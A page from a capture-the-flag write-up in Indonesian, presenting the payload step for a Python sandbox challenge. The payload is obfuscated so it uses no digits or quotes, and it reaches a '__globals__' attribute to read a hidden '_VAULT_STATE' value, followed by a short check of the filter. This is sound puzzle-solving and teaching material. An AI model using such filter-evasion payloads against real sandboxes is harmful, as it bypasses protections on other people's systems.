

# The Alchemist's Sandbox — Payload

[← Overview](32-the-alchemists-sandbox.md) · [Index](index.md)

> **Langkah 5/10 — Payload.** Payload
>
> **Titik penting:** —
>
> **Berikutnya:** [Solver lengkap](32-the-alchemists-sandbox-06-solver-lengkap.md)

## 3.1 Payload

```python
PAYLOAD = (
    '((a:=True),(b:=a<<a),(d:=b<<a),(e:=d<<a),(f:=e<<a),'
    '(h:=f<<a),(j:=h<<a),(k:=j+h),(u:=chr(k-a)),'
    'getattr(als,u+u+chr(k+a+b+d)+chr(k+d+e)+chr(k+a+b+d+e)'
    '+chr(k+b)+chr(k+a)+chr(k+d+e)+chr(k+a+b+f)+u+u)'
    '[u+chr(k-e-b)+chr(j+a)+chr(k-e-b-a)+chr(j+e+d)'
    '+chr(k-e-d)+u+chr(k-e-d-a)+chr(k-e-d)+chr(j+a)'
    '+chr(k-e-d)+chr(j+d+a)])[-a]'
)
```

Cek:

```text
payload length: 315
contains digits/quotes: False
parses as expression: yes
```

### Evidence langkah ini



*Terminal evidence — `01-solve-output.txt` (arsip transkrip sesi solve).*

**Berkas mentah langkah ini:**

- [`01-solve-output.txt`](assets/the-alchemists-sandbox/01-solve-output.txt)
